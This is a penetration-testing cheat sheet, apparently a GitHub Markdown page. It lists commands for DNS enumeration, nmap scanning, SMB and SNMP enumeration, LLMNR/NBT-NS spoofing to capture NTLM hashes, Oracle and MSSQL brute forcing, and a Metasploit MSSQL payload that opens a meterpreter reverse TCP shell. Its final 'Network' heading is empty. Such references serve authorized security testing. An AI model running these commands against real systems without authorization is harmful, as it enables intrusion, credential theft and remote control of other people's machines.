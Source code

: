 [Back to Main Page](../index.html) 

# Introduction

This penetration cheat sheet should be used as a quick reference overview for various and typical commands used when performing penetration tests.

**Table of Contents** 

- [Pre-engagement](#pre-engagement)
    - [Network Configuration](#network-configuration)
        - [Set IP Address](#set-ip-address)
        - [Subnetting](#subnetting)
- [Information Gathering](#information-gathering)
    - [DNS Enumeration](#dns-enumeration)
    - [Active Information Gathering](#active-information-gathering)
        - [DNS Bruteforce](#dns-bruteforce)
        - [Port Scanning](#port-scanning)
    - [Enumeration of Network Services](#enumeration-of-network-services)
        - [SMB SAMB Enumeration](#smb-samb-enumeration)
        - [LLMNR and NBT-NS Attack Spoofing](#llmnr-and-nbt-ns-attack-spoofing)
        - [SNMP Enumeration](#snmp-enumeration)
    - [TLS and SSL Testing](#tls-and-ssl-testing)        
- [Penetration Tests](#penetration-tests)
    - [Database Penetration](#database-penetration)
        - [Oracle](#oracle)
        - [MSSQL](#mssql)    
- [Network](#network)


# Pre-engagement

## Network Configuration

### Set IP Address

`ifconfig eth0 xxx.xxx.xxx.xxx/24 `

### Subnetting

`ipcalc xxx.xxx.xxx.xxx/24`

`ipcalc xxx.xxx.xxx.xxx 255.255.255.0`

# Information Gathering

## DNS Enumeration 

`whois domain.com`   
Domain name lookup service to search the whois database for domain name registration information.

`dig a domain.com @nameserver`    
Dig dns lookup / nameserver query.

`dig mx domain.com @nameserver`   
Perform MX record Lookup.

`dig axfr domain-name-here.com @nameserver`   
Perform Zone Transfer.

##  Active Information Gathering

### DNS Bruteforce

`dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml`   
DNS Recon via Kali Tools.

### Port Scanning

`nmap -v -sS -A -T4 target`   
Nmap verbose scan, runs syn stealth, T4 timing (should be ok on LAN), OS and service version info, traceroute and scripts against services.

`nmap -v -sS -p--A -T4 target`   
As above but scans all TCP ports (takes a lot longer).

`nmap -v -sU -sS -p- -A -T4 target`   
As above but scans all TCP ports and UDP scan (takes even longer).

`netdiscover -r 192.168.1.0/24`   
Discovers IP, MAC Address and MAC vendor on the subnet from ARP, helpful for confirming you're on the right VLAN at $client site.

## Enumeration of Network Services

### SMB SAMB Enumeration

`nbtscan 192.168.1.0/24`   
nbtscan is a external tool that discovers Windows / Samba servers on subnet, finds Windows MAC address, exposed netbios nameservers and discovers client workgroup or domain.

`enum4linux -a target-ip`    
enum4linux is a tool for enumerating information from Windows and Samba systems.

`smbclient -L //192.168.1.100`   
Use it to find the smbclient version.

`nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254`   
`python /usr/share/doc/python-impacket-doc/examples /samrdump.py 192.168.XXX.XXX`   
Enumerate SMB Users

`nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24`   
Find open SMB shares

`use auxiliary/scanner/smb/smb_lookupsid`   
METASPLOIT MODULE - Determine what users exist via brute force SID lookups. This module can enumerate both local and domain accounts by setting ACTION to either LOCAL or DOMAIN.

`smbclient -L //192.168.99.131`   
Test for Null Session on Windows Server 2000.

### LLMNR and NBT-NS Attack Spoofing

Steal credentials off the network. LLMNR and NetBIOS are two name resolution services built in to Windows to help systems find address names from other devices on the network. 

`auxiliary/spoof/llmnr/llmnr_response`   
`auxiliary/spoof/nbns/nbns_response`   
Spoof / poison LLMNR / NetBIOS requests.

`auxiliary/server/capture/smb`   
`auxiliary/server/capture/http_ntlm`   
Capture the hashes of LLMNR / NBT-NS. You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

### SNMP Enumeration

SNMP enumeration is the process of using SNMP to enumerate user accounts on a target system. SNMP employs two major types of software components for communication: the SNMP agent, which is located on the networking device, and the SNMP management station, which communicates with the agent.

`snmp-check -t 192.168.1.2 -c public`   
`snmpwalk -c public -v1 192.168.1.X 1| grep hrSWRunName|cut -d* * -f`   
`snmpenum -t 192.168.1.X`   
`onesixtyone -c names -i hosts`
Different SNMP Enumerations.

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`   
SNMPv3 Enumeration.

`/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt`
Metasploit's wordlist has common credentials for SNMPv1 and SNMPv2.

## TLS and SSL Testing

`./testssl.sh -e -E -f -p -y -Y -S -P -c -H -U TARGET-HOST | aha > OUTPUT-FILE.html`
Test all options on a single host and output to a .html file.

# Penetration Tests

## Database Penetration

### Oracle

`apt-get install oscanner`    
`oscanner -s 192.168.1.200 -P 1521`   
Install and Run OScanner for SID Enumeration, Password tests, Version, Accounts, Audits, policies.

`nmap --script=oracle-tns-version`   
Fingerprint / get Oracle TNS version.

`nmap -p 1521 -A TARGET`   
Run nmap against oracle TNS.

`nmap --script=oracle-sid-brute`   
`nmap --script=oracle-brute`   
Identify default Oracle users. Login to continue the oracle privilege escalation.

### MSSQL

`nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156`   
`msf > use auxiliary/scanner/mssql/mssql_ping`   
Use nmap or METASPLOIT for MSSQL Enumeration.

`msf > use auxiliary/admin/mssql/mssql_enum`
Bruteforce MSSQL Login.

`msf > use exploit/windows/mssql/mssql_payload`   
`msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp` 
Metasploit MSSQL Shell.

# Network
